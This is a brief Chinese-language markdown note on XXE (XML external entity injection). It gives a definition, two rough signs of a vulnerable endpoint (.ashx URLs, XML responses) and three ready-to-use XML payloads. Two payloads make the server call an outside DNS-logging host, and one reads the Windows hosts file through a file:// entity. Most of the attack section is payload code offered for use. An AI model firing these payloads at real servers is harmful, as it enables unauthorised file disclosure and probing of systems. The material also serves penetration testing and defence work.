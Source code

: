 # XXE漏洞

# XXE漏洞

XXE漏洞——XML外部实体注入漏洞，通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

​	

## XXE的特征

- URL的后缀是 `.ashx`
- 响应体是XML

​	

## payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "60m4f9.dnslog.cn" > %xxe; ]>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "60m4f9.dnslog.cn">
]>
<r>&sp;</r>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">
]>
<r>&sp;</r>
```


